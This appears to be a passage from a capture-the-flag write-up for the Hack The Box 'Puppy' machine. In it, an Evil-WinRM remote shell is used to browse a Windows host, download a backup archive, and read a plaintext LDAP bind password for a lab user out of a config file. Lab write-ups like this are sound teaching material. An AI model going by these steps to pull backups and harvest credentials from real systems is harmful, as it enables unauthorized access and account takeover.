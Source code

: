 
```
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/4/2025   3:40 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---         5/18/2025   3:05 AM                Users
d-----         5/13/2025   4:40 PM                Windows


*Evil-WinRM* PS C:\> cd Backups
*Evil-WinRM* PS C:\Backups> ls


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip
                                        
Info: Downloading C:\Backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip
                                        
Info: Download successful!

```

Inside `site-backup-2024-12-30.zip` (located in `C:\Backups`) there is an `nm-auth` config file containing credentials for the `steph.cooper` account:

```
steph.cooper/ChefSteph2025!
```


```
┌──(kali㉿kali)-[~/HTB-machine/puppy/puppy]
└─$ cat nms-auth-config.xml.bak 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
```